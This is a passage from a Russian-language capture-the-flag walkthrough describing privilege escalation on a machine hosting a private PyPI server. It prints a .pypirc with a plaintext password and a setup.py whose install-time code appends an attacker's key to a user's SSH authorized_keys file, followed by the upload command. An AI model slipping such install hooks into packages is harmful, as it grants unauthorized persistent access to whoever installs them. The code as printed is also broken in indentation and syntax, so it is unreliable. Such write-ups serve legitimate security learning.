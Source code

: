 получше изучим pypi на сайте видно что для изменения нужна аутентификация, и через шелл мы можем только смотреть, этого хватит, так как мы можем найти логин и пароль в скрытом файле. Осталось разгадать хэш пароля, ну тут тоже ничего сложного.

Однако, банальная аутентификация нам тоже ничего не дала, попробуем заабузить установку модуля тем более **sudo -l** дает нам понять что мы могем.

придется попрогать и поиграть в гадалку

для начала из мануалов становится понятно, что надо с нуля написать файл конфигурации

```
distutils index-servers =

index-servers =

local

local

repository: **

username: pypi

password: soufianeelhaoui
```

получилось что-то вроде такого, а теперь еще и с нуля написать модуль и установщик

```python
try:

with open("/home/low/.ssh/authorized_keys","a") as f:

f.write("key")

f.close()

except Exception as e:

pass

import setuptools

setuptools.setup(

name="kali_username",version="0.0.1",author="Example Author",author_email="author@example.com",descripion="just a file",

long_description="",long_description_content_type="text/markdown",url="https://github.com/pypa/sampleproject",

package=setuptools.find_packages(),classifiers="Programming Language :: Python :: 3","License :: OSI Approved :: MIT License","Operating System :: OS Independent")
```

что-то вроде этого сработало, сначала я пытался написать банальный шелл, после того как убедился в том что все это запускается под тем кем нужно, но шелл возвращал меня в ту же точку, поэтому верным решением было бы создать ssh ключ, так и поступим.

**python setup.py sdist register -r local upload -r local**
